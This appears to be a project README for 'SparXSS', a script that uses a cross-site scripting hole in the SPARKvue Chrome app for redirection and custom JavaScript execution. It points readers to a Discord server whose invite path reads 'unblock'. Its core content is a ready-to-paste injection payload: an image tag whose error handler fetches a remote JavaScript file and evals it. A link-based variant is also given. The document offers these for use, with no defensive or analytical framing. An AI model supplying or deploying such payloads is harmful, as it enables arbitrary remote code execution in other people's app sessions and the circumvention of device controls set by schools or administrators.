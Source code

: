 ## A Script For Redirection And Custom Javascript Execution For The SPARKvue Chrome App XSS Vulnerability Found By ohonbob
The full guide to access the vulnerability is in the Titanium Network Discord Server: <a target="_blank" href="http://discord.gg/unblock">discord.gg/unblock</a>
[yeetus](https://discord.gg/unblock)

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```
Or make it a clickable link:
```
<a href="https://amukerd.github.io/SparXSS">Click Me!</a>
```

## [Changelog](https://github.com/Amukerd/SparXSS/blob/main/Changelog.md)

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
- ~~Make the links save without having to manually click the textbox where the script is~~
